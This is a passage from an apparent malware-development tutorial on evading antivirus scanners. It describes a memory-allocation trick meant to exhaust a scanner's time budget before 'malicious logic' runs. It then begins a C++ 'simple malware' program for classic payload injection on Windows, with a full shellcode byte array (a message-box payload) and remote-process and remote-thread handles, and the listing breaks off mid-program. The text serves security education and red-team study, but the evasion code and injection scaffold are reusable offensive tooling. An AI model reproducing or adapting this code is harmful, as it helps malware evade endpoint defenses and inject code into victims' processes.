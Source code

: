 This is classic variant, we define payload, allocate memory, copy into the new buffer, and then execute it.    

The main limit with AV scanner is the amount of time they can spend on each file. During a regular system scan, AV will have to analyze thousands of files. It just cannot spend too much time or power on a peculiar one. One of the "classic" AV evasion trick besides payload encryption: we just allocate and fill `100MB` of memory:    
```cpp
char *mem = NULL;
mem = (char *) malloc(100000000);
if (mem != NULL) {
  memset(mem, 00, 100000000);
  free(mem);
  //... run our malicious logic
}
```

So, let's go to update our simple malware:   

```cpp
/*
hack.cpp
classic payload injection example
allocate too much memory
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/12/21/simple-malware-av-evasion-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {

  // meow-meow messagebox x64 windows
  unsigned char my_payload[] = 
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  DWORD pid; // process ID
```